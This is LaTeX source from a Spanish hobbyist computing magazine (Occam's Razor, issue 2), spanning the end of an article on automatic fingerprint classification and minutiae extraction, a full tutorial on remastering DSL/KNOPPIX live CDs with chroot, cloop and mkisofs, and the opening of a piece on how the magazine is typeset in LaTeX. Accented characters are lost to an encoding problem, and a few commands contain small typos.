
\includegraphics[height=5.0cm, keepaspectratio]{images/Fig1b.eps}

{\footnotesize\textbf{Fig1. Izquierda: n�celo y delta de una huella. Derecha: divisi�n en regiones utilizando los puntos singulares.}}
\end{figure}

\clearpage
\pagebreak


\bOpage{introcolor}{0.25}{TECNOLOG�A}

\end{multicols}
\rput(8.5,-0.2){\resizebox{13cm}{!}{{\epsfbox{images/Fig2.eps}}}}

\vspace{2.0cm}
\begin{center}
{\footnotesize\textbf{Fig 2. Tipos de huellas (dactiloscopia de Henry, EE.UU. y Reino Unido}}
\end{center}



\begin{multicols}{2}

Actualmente, existen sistemas autom�ticos que clasifican las huellas
en este tipo de clases. Por ejemplo, el PCASYS [3] es un software
libre (parte del NFIS) que realiza la clasificaci�n de Henry. El
m�todo de PCASYS (explicado muy brevemente) ser�a as� (ojo, ahora dejo
por un momento el estilo divulgativo y me vuelvo m�s t�cnico, esto ya
es procesado de imagen): 

% Informaci�n T�cnica
\begin{itemize}
\item Dividir la imagen en subregiones. En cada una se extraen datos
  de la direcci�n predominante (que �ngulo forman las crestas). 
\item Con todos esos datos (n�meros) se forma un vector (vector de
  caracter�sticas, que es como se le llama a los conjuntos de
  caracter�sticas num�ricas que usan todos los clasificadores
  autom�ticos). 
\item El vector se procesa con una red neuronal. Las redes neuronales
  [4] ``aprenden'' a reconocer cuando un vector de caracter�sticas
  corresponde a la clase 1, a la 2... o a ninguna. Para ello, se hacen
  unas operaciones matem�ticas que imitan el funcionamiento del
  sistema nervioso de los humanos y animales. S�, s�, es uno de los
  inventos m�s interesantes que conozco... El libro de la referencia 4
  es muy, muy bueno. 
\end{itemize}

% Final Informaci�n T�cnica



\sectiontext{white}{black}{COMPARACI�N DE HUELLAS (MINUCIAS)}

El m�todo est�ndar (y el marcado por la legislaci�n en todo el mundo)
para la comparaci�n exhaustiva de huellas es el de la extracci�n de
minucias. Las minucias son los puntos singulares encontrados en el
trazo de las crestas (puntos donde se bifurcan, terminan...). En una
huella puede haber m�s de 100 minucias. La ley en Espa�a (y en muchos
otros pa�ses) establece que dos huellas con 12 o m�s minucias
coincidentes no pueden ser diferentes (las minucias deben coincidir en
tipo, posici�n respecto al n�cleo y direcci�n o �ngulo respecto a la
horizontal). N�tese que basta con encontrar 12 coincidencias, da igual
el resto de minucias (esta regla permite comparar con trozos de
huellas y/o con huellas de baja calidad). 

Los sistemas que detectan autom�ticamente minucias se basan en (de
nuevo hablo de procesado de imagen): 

% M�s informaci�n t�cnica
\begin{itemize}
\item Dividir la huella en trozos y en cada uno, decidir que puntos
  son negros y cu�les blancos. Eso es una operaci�n llamada binarizar
  y lo hacen muchos sistemas de procesado de imagen como los OCR's. En
  la imagen de entrada hay 256 niveles de gris y hay que dejarlo 
  en 2. En los casos m�s f�ciles llega con poner un umbral pero �ste
  es un caso muy dif�cil y el umbral se calcula en cada punto seg�n
  las crestas que lo rodean. Fijaos que estamos dediciendo, �d�nde
  est�n las crestas y donde los valles o surcos? A lo mejor para
  preclasificar, daba igual equivocarse en un par de sitios pero aqu�
  ya no da tan igual. 

\item Despu�s todas las l�neas que son m�s gruesas que un p�xel se
  adelgazan (thinning) para poder seguirlas (un buen libro de
  procesado de imagen que explica la binarizaci�n, el thinning y mucho
  m�s es [5]) de las crestas. 
\item Siguiendo las l�neas (las crestas) se localizan y clasifican las
  minucias. 
\end{itemize}
% Fin bloque informaci�n t�cnica

MINDTCT [3] es una aplicaci�n libre que realiza esta labor (como no,
parte del NFIS). 

\sectiontext{white}{black}{OTROS SISTEMAS}

Existen otros muchos algoritmos para comparar huellas pero s�lo los
que explicamos ahora se pueden usar en un juicio. Estos nuevos m�todos
suelen ser m�s simples y m�s r�pidos y su aplicaci�n m�s conocida es
en sistemas de control de accesos (control de acceso f�sico a un
recinto o de acceso a un sistema como un ordenador). En estos sistemas
suele haber un lector electr�nico que no tiene tantos problemas como
los dactilogramas lo que tambi�n aligera el procesado (en concreto no
se suelen usar m�todos de binarizaci�n tan sofisiticados). 

\myfig{0}{images/Fig3.eps}{1.0}
\nncaption{Fig 3. Tipos de minucias (izquierda). Las fiables para la classificaci�n son s�lo las terminaciones y bifurcaciones (las otras, a veces, se llaman ``minucias falsas''). Derecha, ejemplo de dos tipos: bifurcaci�n (cuadrado) y fin de cresta (c�rculo).}

\ebOpage{introcolor}{0.25}{TECNOLOG�A}

Si quer�is conocer en detalle un sistema de este tipo pod�is leer este
breve art�culo (eso s�, es un art�culo m�s formal que los que pod�is
encontrar en esta revista): 

\begin{mexample}
{\small
\verb!http://www.gpi.tsc.uvigo.es/pub/papers/said.pdf!
}
\end{mexample}

S�, s�, no he resistido la tentaci�n de hacerme propaganda a m�
mismo... adem�s, as� sab�is c�mo se me ha dado por aprender estas
cosas (el art�culo es un resumen del Proyecto Fin de Carrera del
alumno Fco. Javier Su�rez L�pez titulado ``Sistema Autom�tico de
Identificaci�n Dactilar''). 

Por si sois algo vagos y no quer�is leer el ladrillo ese lleno de
f�rmulas os puedo explicar un poco de qu� va este m�todo, muy parecido
a otros que se usan en este tipo de sistemas (de nuevo marco el
p�rrafo como texto de procesado de imagen): 

% M�s t�cnica
\begin{itemize}
\item Primero se busca el centro de la huella. Para eso hay que
  recorrer las crestas midiendo gradientes y curvaturas. 
\item Una vez encontrado se trata de poner ``encima'' una malla
  circular que define unos puntos de inter�s. En cada punto se mide la
  ``textura'' de la imagen y con todas las texturas se crea un vector
  de caracter�sticas. �Qu� es la textura de la imagen? digamos que es
  la descripci�n de un ``entorno'' del punto en el que estamos. Una
  camisa de cuadros es una textura diferente a una de rayas (y las
  rayas pueden ser horizontales, verticales, en �ngulo.... s�, s�,
  como dide�ador de moda no iba a tener �xito). La textura se mide de
  diferentes maneras (el tema es aplicar alguna operaci�n que d�
  resultados diferentes en texturas diferentes). Nosotros aplicamos el
  filtro Gabor [6] (una convoluci�n 2D) que es muy utilizado para
  describir texturas. 
\end{itemize}

% Fin t�cnica

M�todos muy parecidos a �ste son los que se usan para reconocer el
dibujo del iris, pero ese deber�a ser otro art�culo de la serie...

\sectiontext{white}{black}{REFERENCIAS}

[1] http://www.atmel.com.

[2] P. Olgu�n, ``Sensores Biom�tricos'', Revista Electr�nica de la
Escuela de Ingenier�a El�ctrica (Universidad Central de Venezuela,
http://www.ucv.ve), n� 6, 1999.

[3] M.D. Garris et al, ``NIST Fingerprint Image Software'' NISTIR 6813
(National Institute of Standards and Technology - Internal Report,
http://www.nist.gov), 2001. 

[4] S. Haykin, ``Neural Networks. A Comprehensive Foundation'',
Prentice Hall, 1999.

[5] A.K. Jain, ``Fundamentals of Digital Image Processing'',
Ed. Prentice Hall, 1989.

[6] L. Hong et al, ``Fingerprint Image Enhancement: Algorithm and
Performance Evaluation'', IEEE Trans. PAMI, 20(8), 777-789, 1998. 


\end{multicols}

\vspace{4mm}



\rput(8,-7.0){\resizebox{!}{16cm}{{\epsfbox{images/promo-1.eps}}}}

{\psset{linecolor=black,linestyle=dotted,linewidth=2pt}\psline(0,1)(17,1)}

\clearpage
\pagebreak

% Este fichero es parte del N�mero 2 de la Revista Occam's Razor
% Revista Occam's Razor N�mero 2
%
% (c) 2007, 2009, Occam's Razor.
%
% Esta obra est� bajo una licencia Reconocimiento 3.0 Espa�a de
% Creative Commons. Para ver una copia de esta licencia, visite
% http://creativecommons.org/licenses/by/3.0/es/ o envie una carta a
% Creative Commons, 171 Second Street, Suite 300, San Francisco,
% California 94105, USA. 

% Seccion Distros
%
% Incluye imagen del art�culo


\rput(1.5,-1.7){\resizebox{!}{9cm}{{\epsfbox{images/cd-island-1.eps}}}}

% -------------------------------------------------
% Cabecera
\begin{flushright}
\msection{introcolor}{black}{0.25}{DISTROS}

\mtitle{7cm}{Distribuye tus programas en Live-CD}

\msubtitle{9cm}{Personalizando DSL y KNOPPIX}

{\sf por Er Tuneao}



{\psset{linecolor=black,linestyle=dotted}\psline(-12,0)}
\end{flushright}

\vspace{2mm}
% -------------------------------------------------

\begin{multicols}{2}

\intro{introcolor}{A}{lguna vez os han pasado un programa y cuando hab�is intentado
compilarlo, un mont�n de librer�as perdidas os han desanimado?. O... os
gustar�a ense�arle a alguien ese programa tan chulo que hab�is
escrito, pero hab�is desistido por el hecho de tener que explicar como
configurar todo el entorno para que funcione?. No desesper�is. Los
live-CDs vienen al rescate.
}


Los live-CDs se han popularizado en los �ltimos a�os y la verdad es
que son algo realmente �til. Seguro que todos sab�is de qu� estamos
hablando, pero por si todav�a queda alg�n despistado, os diremos que,
un live-CD permite arrancar un sistema completo desde CD 
(o DVD) sin necesidad de instalar absolutamente nada en el disco duro
del ordenador que lo ejecute.

Las posibilidades son ilimitadas, pero nosotros nos centraremos en una
aplicaci�n muy sencilla para ilustrar el proceso y que luego pod�is
llevar a cabo vuestros propios proyectos.

Sencillamente vamos a ver como a�adir nuestros propios programas a una
distribuci�n live, de forma que podamos distribuirlos con la seguridad
de que se van a ejecutar en un entorno correcto. Bueno, esto es as�,
siempre y cuando vuestro programa no utilice un hardware
super-espec�fico que nadie m�s que vosotros tiene. En ese caso ya solo
os queda invitar a unas cervezas en casa para poder ense�ar vuestra
creaci�n :).

Todo este proceso lo vamos a realizar con DSL. Sin
embargo, DSL est� basada en KNOPPIX, al igual que una gran parte de las
distribuciones live existentes. As� que, la mayor�a de lo que contemos
en lo que sigue lo podr�is aplicar a cualquiera de esos derivados.

\sectiontext{white}{black}{PREPARANDO NUESTRO ENTORNO}

El proceso que vamos a seguir para generar nuestra Live-CD se puede
dividir en dos pasos fundamentales. El primero, lo podr�amos llamar,
``paso de preparaci�n'', y solo lo tendremos que hacer una vez. El
segundo, que podr�amos llamar ``paso de producci�n'' tendremos que
hacerlo cada vez que modifiquemos nuestro Live-CD.

El paso de preparaci�n consiste en ``poblar'' un par de directorios a
partir de los cuales se generar� nuestra distribuci�n. Para que todo
sea m�s sencillo, vamos a trabajar sobre un directorio concreto, el
cual, obviamente, podr�is cambiar seg�n os venga en gana. As� que
empezar�amos con algo como esto:

\begin{mexample}
{\small
\begin{verbatim}
occam@razor $ su -
Password:
root@razor # mkdir -p /opt/vm/dsl-occam
root@razor # cd /opt/vm/dsl-occam
root@razor # mkdir filesystem
root@razor # mkdir master
root@razor # mkdir temp
\end{verbatim}
}%$
\end{mexample}

Bien, acabamos de crear tres directorios sobre los que
trabajaremos. El primero, \verb.filesystem., ser� donde generemos el sistema
de ficheros de nuestra {\em live}. El segundo, \verb.master., es el que contendr�
los ficheros que ir�n en el CD... b�sicamente un sistema de arranque y
una imagen comprimida del contenido del directorio anterior
(\verb.filesystem.).

\begin{entradilla}
{\em ``{\color{introcolor}{Los Live-CD basados en KNOPPIX}} son muy f�ciles de personalizar''}
\end{entradilla}

Finalmente, el directorio \verb.temp., lo utilizaremos para cosas temporales
:). Observad que lo primero que hacemos es hacernos {\em root} (valga la
redundancia). Varios de los pasos que siguen se pueden hacer como 
usuario normal, pero otros no, as� que en este texto haremos todo el
proceso como {\em root}, aunque en general esto no es recomendable.


\sectiontext{white}{black}{MANOS A LA OBRA}

Lo primero que tenemos que conseguir es una imagen del live-CD que
queremos modificar... podr�amos crearla nosotros mismos desde cero,
pero en el punto en el que estamos eso no nos aportar�a gran
cosa. Quiz�s en el futuro hablemos de este tema.

Despu�s de descargar nuestra imagen iso DSL, la montamos, para poder
acceder a su contenido. Esto se hace con el comando \verb.mount. y el
dispositivo de {\em loopback}.  

\begin{mexample}
{\small
\begin{verbatim}
root@razor # mount -o loop dsl-3.2.iso temp
root@razor # cp -a temp/* master/.
root@razor # umount temp
\end{verbatim}
}
\end{mexample}

Aja!... una de esas cosas temporales.

Lo que acabamos de hacer es una copia del contenido de la imagen iso
que hemos descargado. En el directorio \verb.master. tendremos los ficheros
necesarios para generar el CD final con nuestra distribuci�n {\em live}. Observad en la
secuencia de comandos anterior el uso del {\em switch} \verb.-a. durante la
copia... Curiosidad?... Pues solo hay que consultar el manual ;)


\ebOpage{introcolor}{0.25}{DISTROS}

\sectiontext{white}{black}{DERIVADOS KNOPPIX}

Los live-CDs basados en KNOPPIX, tienen, pr�cticamente todos, la misma
estructura. Un directorio llamado \verb.boot. en el que se encuentran los
ficheros necesarios para el sistema de arranque y un directorio llamado \verb.KNOPPIX.
en el que se encuentra un �nico fichero, muy gordo, llamado KNOPPIX.


\begin{entradilla}
{\em ``El primer paso del proceso consiste en{\color{introcolor}{
destripar un live-CD}}''}
\end{entradilla}

El proceso de boot se lleva a cabo utilizando el paquete {\em isolinux} (la versi�n
para CDs de {\em syslinux}) y hablaremos sobre �l m�s tarde. El fichero
\verb.KNOPPIX/KNOPPIX. es donde realmente est� todo lo que contiene la
distribuci�n. Se almacena como una imagen de disco comprimida que el sistema
montar� durante el proceso de arranque.

Bien. Ese es nuestro objetivo. Tenemos que meter nuestros programas y ficheros ah�
dentro.

\sectiontext{white}{black}{DESCOMPRIMIENDO KNOPPIX}

Lo primero que tenemos que hacer es acceder al contenido del fichero
KNOPPIX, para lo que necesitamos dispoder en nuestro sistema del
m�dulo {\em cloop}. Este m�dulo proporciona un dispositivo de {\em loopback}
igualito que {\em loop} (el que usamos para montar la imagen iso del CD),
pero que maneja ficheros comprimidos.

La forma de utilizarlo es muy sencilla

\begin{mexample}
{\small
\begin{verbatim}
root@razor # modprobe cloop \
> file=master/KNOPPIX/KNOPPIX
root@razor # mount -o ro /dev/cloop0 temp
root@razor # cp -a temp/* filesystem/.
root@razor # umount temp
\end{verbatim}
}
\end{mexample}

Ejem!... otra cosa temporal!

Si ahora le ech�is un ojo al directorio \verb.filesystem., ver�is algo
mucho m�s familiar. El sistema de ficheros original (KNOPPIX) no lo podemos modificar
directamente y esa es la raz�n de que realicemos una copia del
mismo. En cuanto veamos como se genera entender�is el porqu� de
ello. A partir de aqu� trabajaremos sobre esta copia almacenada en \verb.filesystem..

Bien, en este punto termina el ``paso de preparaci�n''. En estos
momentos tenemos todo lo que necesitamos en el lugar en el que lo queremos. Ahora solo
necesitamos saber como modificar nuestro sistema de ficheros y como
generar un nuevo CD... es decir, como volver a juntarlo todo.

\sectiontext{white}{black}{MODIFICANDO EL SISTEMA}

Ahora ya podemos acceder al sistema de ficheros y a�adir lo que
queramos. Esto lo podemos hacer de dos formas.

La primera es a saco. Copiamos los ficheros que necesitamos en el
lugar adecuado dentro de \verb.filesystem. y ya est�. Esta forma de hacerlo no
es muy recomendable, a no ser que sepamos muy bien lo que estamos
haciendo y lo que vayamos a instalar sea un binario sencillo o con las
dependencias muy claras. 
Si solo vamos a a�adir o modificar ficheros de configuraci�n quiz�s
esta sea la forma m�s c�moda.


La forma correcta es utilizar el comando \verb.chroot.. Este comando nos
permite cambiar el directorio ra�z del sistema de ficheros y por lo tanto, a
todos los efectos (bueno, casi) es como si hubi�ramos arrancado con el
CD que estamos manipulando.

La forma de hacerlo es la siguiente.

\begin{mexample}
{\small
\begin{verbatim}
root@razor # chroot filesystem
bash-2.05b# mount -t proc /proc proc
\end{verbatim}
}
\end{mexample}

Ya estamos dentro!. Ahora cualquier cosa que instalemos, ya sea a
partir de sus fuentes (necesitamos un entorno de desarrollo,
compilador, librer�as, includes,...) o con el sistema de paquetes que proporcione la
distribuci�n con la que estamos trabajando, acabar� en nuestro live-CD
en algunos minutos.

Observad que tras el comando \verb.chroot. hemos montado el sistema de
ficheros \verb.proc.... Dependiendo de lo que vayamos a hacer puede no ser
necesario. Simplemente, ciertas utilidades lo utilizan para obtener
informaci�n del sistema y si este no existe... pues fallan.

Si utiliz�is \verb./proc., recordad desmontarlo antes de salir del
entorno \verb.chroot.,
cuando hay�is terminado de instalar lo que necesit�is.

\begin{mexample}
{\small
\begin{verbatim}
bash-2.05b# umount /proc
bash-2.05b# exit
root@razor # 
\end{verbatim}
}
\end{mexample}


\sectiontext{white}{black}{GENERANDO EL NUEVO FS}

Ahora que ya tenemos instalado nuestra {\em ``killing application''},, tenemos
que generar un nuevo fichero KNOPPIX para incluir en nuestra imagen
iso que finalmente se convertir� en un live-CD. Este proceso consta de
varios pasos (obviamente).

En primer lugar generamos una imagen iso normal y corriente de nuestro
nuevo sistema de ficheros:

\begin{mexample}
{\small
\begin{verbatim}
root@razor # mkisofs -R -J -o temp.iso ./filesystem
\end{verbatim}
}
\end{mexample}

A continuaci�n tenemos que generar una imagen comprimida que pueda
manejar cloop. Esta imagen se genera con la utilidad
\verb!create_compressed_fs! que suele estar incluida en las distribuciones
que utilizan el dispositivo cloop, pero normalmente no est� disponible
en una instalaci�n normal.



As� que o conseguimos ese programa y lo instalamos o utilizamos el que est� dentro del
CD. Nosotros vamos a hacer esto �ltimo, ya que es mucho m�s
directo. As� que simplemente ejecutamos:

\ebOpage{introcolor}{0.25}{DISTROS}
\rput(13,-21.5){\resizebox{!}{7.3cm}{{\epsfbox{images/dsl-occams-boot.eps}}}}


\begin{mexample}
{\footnotesize
\begin{verbatim}
root@razor # filesystem/usr/bin/create_compressed_fs \
> temp.iso 65536 > master/KNOPPIX/KNOPPIX
\end{verbatim}
}
\end{mexample}


En el hipot�tico caso de que el programa no se ejecutara, porque la
distribuci�n utilice versiones diferentes de algunas librer�as de las
que tenemos instaladas, o cualquier otra cosa, este proceso siempre lo
podremos ejecutar desde el entorno \verb.chroot..

\begin{entradilla}
{\em ``{\color{introcolor}Con create\_compressed\_fs} podemos crear im�genes
comprimidas de un sistema de ficheros.''}
\end{entradilla}


Como comentario final, la �ltima versi�n de KNOPPIX (v 5.1)
proporciona una versi�n m�s moderna de \verb!create_compressed_fs!. Si
estamos trabajando sobre esta distribuci�n, simplemente tenemos que
ejecutar:

\begin{mexample}
{\footnotesize
\begin{verbatim}
root@razor # filesystem/usr/bin/create_compressed_fs \ 
> temp.iso master/KNOPPIX/KNOPPIX
\end{verbatim}
}
\end{mexample}

Ahora tendremos en el directorio \verb.filesystem. un fichero llamado
\verb.KNOPPIX. que ya podremos utilizar directamente para generar
nuestro live-CD. 

\sectiontext{white}{black}{GENERANDO Y PROBANDO EL \\LIVE-CD}

Con todos los elementos que hemos ido produciendo, la generaci�n del
live-CD se reduce a generar una imagen ``arrancable'' con los ficheros
que hemos almacenado en el directorio \verb.master.. Pero antes debemos
incluir nuestro nuevo sistema de ficheros.

Esto es lo que debemos ejecutar:

\begin{mexample}]
{\small
\begin{verbatim}
root@razor # cp filesystem KNOPPIX \
> master/KNOPPIX/KNOPPIX
root@razor # mkisofs -pad -l -r -J -v \
> -V "Occam's Razor. La Revista" -no-emul-boot \
> -boot-load-size 4 -boot-info-table \
> -b boot/isolinux/isolinux.bin \
> -c boot/isolinux/boot.cat \
> -hide-rr-moved -o dsl-occams.iso \
> /opt/vm/dsl-occams/master/
\end{verbatim}
}
\end{mexample}

Un poco rollo, pero es lo que hay. Quien tenga curiosidad por lo que
hace cada uno de los par�metros, podr� encontrar una descripci�n
detallada de los mismos en la p�gina del manual de \verb.mkisofs. y la p�gina
web de syslinux/isolinux.

Lo �nico realmente importante de este comando es que el �ltimo
par�metro debe ser un path absoluto. El resto de ficheros
referenciados en el mismo se buscan a partir de este path.

Cuando el comando anterior termine, obtendremos un
fichero llamado dsl-occams.iso. Nuestro live-CD. 

Para probarlo, podemos grabarlo en un CD y arrancar nuestra m�quina
con �l, o utilizar un emulador como qemu. 

Es recomendable la segunda opci�n, al menos hasta que hay�is
comprobado que todo funciona correctamente... a no ser que necesit�is
posavasos, para esa mesita tan mona que ten�is en la sala de estar :).
 Para probar nuestro live-cd con qemu, solo tenemos que
ejecutar este comando:

\begin{mexample}
{\small
\begin{verbatim}
root@razor # qemu -cdrom /tmp/dsl-occams.iso
\end{verbatim}
}
\end{mexample}

Voil�!... nuestra propia live.

\sectiontext{white}{black}{PANTALLA DE ARRANQUE}

Ahora vamos a darle algunos toques personales a nuestra live,
para que se note que es �nica e incomparable. 

Lo primero que vamos a hacer es cambiar la pantalla de arranque. Esto
no tiene nada que ver con DSL ni con KNOPPIX, sino con isolinux, el
gestor de arranque que estas distribuciones utilizan.

Si echamos un ojo al directorio master/boot/isolinux, nos encontraremos con
un fichero llamado logo.16... ese es el fichero que tenemos que
modificar. Puesto que utiliza un formato especial, tendremos que
utilizar algunos programas para obtenerlo.

Lo primero que haremos es crear nuestra flamante imagen con nuestro
programa de dibujo preferido (vamos, el GIMP :). Esta imagen, debe
tener un tama�o de 640x400 y 16 colores o menos. Pod�is trabajar con color
real y convertir la imagen a {\em ``indexed color''} cuando la teng�is
lista. 

Grabaremos nuestra {\em ``splash screen''} en formato ppm para poder
utilizar las herramientas con las que generar el fichero logo.16 de la
siguiente forma:

\begin{mexample}
{\small
\begin{verbatim}
occam@razor $ ppmtolss16 < logo.pnm > logo.16
occam@razor $ cp logo.16 master/boot/isolinux
\end{verbatim}
}
\end{mexample}

\raggedcolumns
\pagebreak
\eOpage

\bOpage{introcolor}{0.25}{DISTROS}
\rput(8,-21){\resizebox{!}{9.5cm}{{\epsfbox{images/dsl-occam-desktop.eps}}}}

No vamos a profundizar en las opciones que ofrece syslinux/isolinux,
pero pod�is echar un ojo al directorio isolinux. 



En �l encontrar�is
todas las opciones de arranque del sistema en los ficheros de texto
que contiene. 

\sectiontext{white}{black}{NUESTRA DISTRO}

Bueno, nosotros hemos decidido crear una live-CD usando DSL con la que
distribuir nuestra revista. Hemos copiado todos los ficheros de
nuestra web en el directorio /opt/monkey/htdocs. Como servidor web
utilizamos el que incluye DSL... monkey.

Con todo esto, solo tenemos que lanzar nuestro servidor web en el
arranque y que hacer que firefox muestre nuestra p�gina web al arrancar el sistema
gr�fico. Para lanzar nuestro servidor web, modificaremos el fichero
/opt/bootcal.sh, a�adiendo una l�nea como la siguiente:

\begin{mexample}
{\small
\begin{verbatim}
/opt/monkey/bin/banana start
\end{verbatim}
}
\end{mexample}

Ahora solo tenemos que modificar el fichero /etc/skel/.xinitrc. Si
edit�is este fichero ver�is una l�nea en la que se lanza el browser
dillo. Modificaremos esa l�nea para que acceda a nuestro servidor web
local de la siguiente forma:

\begin{mexample}
{\small
\begin{verbatim}
filefox http://localhost/ &>/dev/null &
\end{verbatim}
}
\end{mexample}

Mola!... Adem�s ahora tenemos un servidor web con lo que nuestra
revista se puede ver desde cualquier ordenador conectado a la misma
red en la que se ejecuta nuestra distro :)... 

En la figura pod�is ver el resultado final.


\sectiontext{white}{black}{ZONA GEEK. AUTOMATIZANDO EL PROCESO}

Pues eso, como somos unos vaguillos, y un poco torpes, hemos tenido
que generar unas cuantas im�genes hasta que la distro quedara como
quer�amos, as� que... como no, escribimos un peque�o script para
automatizar todo el ``proceso de generaci�n'' :). Aqu� pod�is verlo:

\begin{mexample}
{\bf build.sh }
{\scriptsize
\begin{verbatim}
#!/bin/sh

echo "------------------------------------------------------------"
echo "Construyendo image ISO del sistema de ficheros"
echo "------------------------------------------------------------"
mkisofs -R -J -o temp.iso ./filesystem/

echo "------------------------------------------------------------"
echo "Iniciando chroot..."
./filesystem/usr/bin/create_compressed_fs temp.iso 65536 > \
master/KNOPPIX/KNOPPIX"
echo "------------------------------------------------------------"

echo "------------------------------------------------------------"
echo "Generando CD bootable"
echo "------------------------------------------------------------"
mkisofs -pad -l -r -J -v -V "Occam's Razor. La Revista" \
-no-emul-boot -boot-load-size 4 -boot-info-table \ 
-b boot/isolinux/isolinux.bin -c boot/isolinux/boot.cat \
-hide-rr-moved -o dsl-occams.iso /opt/vm/dsl-occams/master/

rm temp.iso

echo "HECHO!!!"
\end{verbatim}
}
\end{mexample}

Como pod�is ver es una tonter�a, pero hace las pruebas m�s llevaderas,
sobre todo con KNOPPIX que requiere un tiempo no despreciable para generarse.


\sectiontext{white}{black}{ESTO ES TODO}

Bien, pues esto es todo. Hay much�simas cosas m�s que se pueden
personalizar y muchas opciones que probar. Esperamos que con lo que
aqu� os hemos contado teng�is suficiente para poder entreteneros un
poco creando vuestros propios live-cds.



\end{multicols}

\clearpage
\pagebreak

% Este fichero es parte del N�mero 2 de la Revista Occam's Razor
% Revista Occam's Razor N�mero 2
%
% (c) 2007, 2009, Occam's Razor.
%
% Esta obra est� bajo una licencia Reconocimiento 3.0 Espa�a de
% Creative Commons. Para ver una copia de esta licencia, visite
% http://creativecommons.org/licenses/by/3.0/es/ o envie una carta a
% Creative Commons, 171 Second Street, Suite 300, San Francisco,
% California 94105, USA. 

% Seccion Ratas de Biblioteca
%
% Incluye imagen del art�culo


\rput(2,-2.3){\resizebox{!}{7cm}{{\epsfbox{images/makingof.eps}}}}

% -------------------------------------------------
% Cabecera
\begin{flushright}
\msection{introcolor}{black}{0.25}{MAKING OF}

\mtitle{7cm}{El ``Making of'' de...}

\msubtitle{5cm}{... Occam's Razor}

{\sf por Er Escribano}

{\psset{linecolor=black,linestyle=dotted}\psline(-12,0)}
\end{flushright}

\vspace{2mm}
% -------------------------------------------------

\begin{multicols}{2}


% Introducci�n

\intro{introcolor}{T}{ras la publicaci�n de nuestro primero n�mero, muchos lectores se
interesaron por como se hab�a hecho la revista. Sobre todo por el uso
de \LaTeX, que no es muy com�n para estos menesteres. As� que aqu� est�
el ``meikinof'' de esta revista que est�is leyendo. Leed con cuidado, no
vaya a ser que entr�is en un bucle infinito :)
}



Antes de que esto se convirtiera en una revista, trabajaba yo para una
empresa de alta tecnolog�a ubicada en una conocida ciudad
espa�ola. Por aquel entonces, me toc� escribir cienes de documentos
para el proyecto en el que trabajaba.

Como no pod�a ser de otra forma, los documentos se escrib�an usando el
conocido procesador de textos ``Palabra'' (y las presentaciones se
hac�an con el software ``Punto Poderoso'' of curse -es decir, de maldici�n-). Ser� rarito, pero
ese programa me resultaba muy incomodo de utilizar, sobre todo con
documentos muy grandes en los que los n�meros de secciones, tablas y
figuras eran bastante importantes.

Puesto que los documentos finales se distribu�an como PDFs, pens�: Si
puedo generar un PDF similar pero usando \LaTeX, ser�a mucho m�s feliz :).

\sectiontext{white}{black}{CUANDO TODO EMPEZ�}

As� que me puse a investigar por mi cuenta y riesgo, como poder
generar una plantilla \LaTeX \hspace{1pt} id�ntica a la plantilla {\em Word} que usaba mi
compa��a. Durante mi periplo por Internet y el CTAN ({\em Comprehensie
\TeX \hspace{1pt}
 Archive Network}) encontr� un mont�n de paquetes muy interesantes, hasta
que finalmente top� con la p�gina del paquete ``pstricks''. 

Las demos que en su p�gina se pod�an ver eran bastante impresionantes,
el paquete bastante sencillo de usar y las primeras pruebas que hice
se parec�an a... una revista!!!.

Esta historia tiene dos finales. Uno es este que est�s
leyendo. El otro, menos agradable, se puede resumir en un mont�n de
p�ginas en {\em Word}... Mucho que escribir y poco tiempo para innovar :(.

Despu�s de esta peque�a introducci�n ``hist�rica'' que a muchos os la
traer� floja, vamos al grano.

\sectiontext{white}{black}{PAQUETES CLAVE}

Antes de meternos con los temas m�s peliagudos vamos a comentar que
paquetes \LaTeX \hspace{1pt} hemos utilizado y para qu�. Los que hay�is visitado la
p�gina web ya los conocer�is. Los que no, aqu� ten�is la lista:

\begin{itemize}
\item {\bf Facy Headers:} Con el que generamos los pies de p�gina con la
  numeraci�n. Este paquete es un viejo conocido de los usuarios \LaTeX.
\item {\bf Lstlisting:} Para que los listados queden chulos.
\item {\bf TexPos:} Este paquete se utiliza en la p�gina de la editorial, y nos
  permite posicionar bloques de texto de forma arbitraria en la
  p�gina. Los que alguna vez hay�is creado un p�ster de esos de
  congresos, seguro que lo hab�is utilizado de forma directa o
  indirecta.
